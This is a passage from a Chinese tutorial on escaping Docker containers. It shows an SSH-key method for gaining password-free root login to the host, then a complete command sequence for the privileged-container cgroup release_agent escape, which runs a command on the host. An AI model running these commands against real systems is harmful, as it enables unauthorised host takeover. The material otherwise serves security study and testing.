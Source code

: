   * 生成本机的ssh私钥和公钥，命令：ssh-keygen -t rsa

  * 把本机的公钥复制到容器内的/root/.ssh/authorized_keys里，可以实现宿主机的免密登陆。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101900.png)

将公钥复制至authorized_keys中

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101901.png)

容器内直接使用私钥登陆宿主机，如图登陆成功

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101902.png)

  

这两种方法简单粗暴，但是极容易被检测到，从而暴露。

#### 方式三：挂载cgroup逃逸

首先启动一个容器

    
    
    docker run --rm -it --privileged ubuntu bash

在容器里执行命令,将cgroup直接以 cgroup类型挂载到容器内，挂载选项为
rdma（远程直接内存访问）并在容器内创建一个子cgroup目录（cgroup_2）,目的是为了创建release_agent文件且触发release_agent执行的cgroup。

    
    
    mkdir /tmp/cgroup  
    mount -t cgroup -o rdma cgroup /tmp/cgroup   
    mkdir /tmp/cgroup/cgroup_2

激活子cgroup的notify_on_release，使得在子cgroup退出时能够执行其父cgroup中的release_agent,当将
notify_on_release被设置为1时，在子cgroup被移除时，内核将会运行顶层cgroup下的release_agent文件中指定的命令。

    
    
    echo 1 > /tmp/cgroup/cgroup_2/notify_on_release

通过读取/etc/mtab获取uppdir= 后面跟随的路径（宿主机访问容器的路径）,并将其并写入
release_agent（如下图所示），宿主机可通过该路径访问容器根目录，cgroup最后一个程序退出时执行/cmd的脚本。

    
    
    host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`  
    echo "$host_path/cmd" > /tmp/cgroup/release_agent

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915101904.png)

接下来就是构造cmd脚本，并将结果输出到容器内output下

    
    
    echo '#!/bin/sh' > /cmd  
    echo "ps ef > $host_path/output" >> /cmd   
    chmod a+x /cmd

![]()

通过子cgroup创建一个可以立即结束的进程，实施攻击,如图，成功获得主机ps结果
